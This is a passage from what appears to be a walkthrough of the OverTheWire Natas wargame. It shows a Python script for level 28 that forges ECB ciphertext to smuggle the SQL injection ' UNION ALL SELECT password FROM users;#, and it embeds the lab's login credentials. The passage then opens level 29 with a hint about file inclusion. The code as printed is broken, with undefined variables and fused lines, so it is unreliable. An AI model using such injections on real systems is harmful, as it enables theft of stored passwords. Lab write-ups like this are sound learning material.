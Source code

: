 Let’s recap :

- We will generate a baseline by sending a query with **10** spaces
- We will send the SQLi prepended by **9** spaces and a **quote*
- We will compute the number of blocks containing our SQLi
- Then we forge a ciphertext using our baseline (empty string), the SQLi and the footer of the baseline

The code to do the above has been shown below

```python
import requests
import urllib
import base64conn_url = "http://natas28.natas.labs.overthewire.org"
conn = requests.Session()
#basic auth
conn.auth = ('natas28', 'JWwR438wkgTsNKBbcJoowyysdM82YjeF')# First we generate a baseline for the header/footer
data = {'query':10 * ' '}
resp = conn.post(url, data=data)
meat = urllib.parse.unquote(resp.url.split('=')[1])
meat = base64.b64decode(meat.encode('utf-8'))
header = baseline[:48]
#Manually analyze response to extract the information we need out of the HTML response
footer = baseline[48:]sqli = 9 * " " + "' UNION ALL SELECT password FROM users;#"
data = {'query':sqli}
resp = s.post(url, data=data)
exploit = urllib.parse.unquote(r.url.split('=')[1])
exploit = base64.b64decode(exploit.encode('utf-8'))#Calculating the size of the payload
nblocks = len(sqli) - 10
while nblocks % 16 != 0:
    nblocks += 1 
nblocks = int(nblocks / 16)
final = header + exploit[48:(48 + 16 * nblocks)] + footer
final_ciphertext = base64.b64encode(final)
search_url = "http://natas28.natas.labs.overthewire.org/search.php"
resp = s.get(search_url, params={"query":final_ciphertext})print(resp.text)
```

# Natas 29

This one is a somewhat tricky challenge. I have zero knowledge of PERL, so I tried to learn the basics of it as I moved along. There is a drop down text that shows perl code and a rant about perl language, and for some odd reason right clicking is disabled. We can just add the view-source before url’s to see the source code anyways.

They have some weird rants, which I wish had the time to read and make sense of

![img](https://miro.medium.com/max/700/0*J2gnVJoZ2UFQI5Ul.PNG)

Ancient text written by a hoodie hacker, circa 1980 (jk, not the original caption)

So based on the dropdown selected, some text pops up on the page. What catches our attention here is the URL, LFI much?
